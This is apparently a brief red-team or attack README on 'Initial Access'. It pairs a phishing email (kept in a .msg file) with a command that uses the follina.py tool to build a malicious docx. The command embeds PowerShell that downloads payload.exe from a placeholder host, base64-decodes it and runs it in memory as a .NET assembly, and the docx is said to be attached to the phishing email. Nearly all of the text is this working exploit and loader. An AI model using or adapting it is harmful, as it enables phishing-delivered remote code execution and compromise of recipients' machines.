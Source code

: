  # Initial Access

## Email

See .msg file for phishing email.


## Folina 

https://github.com/chvancooten/follina.py

```bash
python .\follina.py -t docx -m command -c "$bytes = (Invoke-WebRequest \"https://<url>/payload.exe\" -UseBasicParsing ).Content;$bytes = [System.Convert]::FromBase64String($string);$assembly = [System.Reflection.Assembly]::Load($bytes);$entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic');$entryPointMethod.Invoke($null, (, [string[]] ('foo', 'bar')))"
```

This docx file is included in the email.


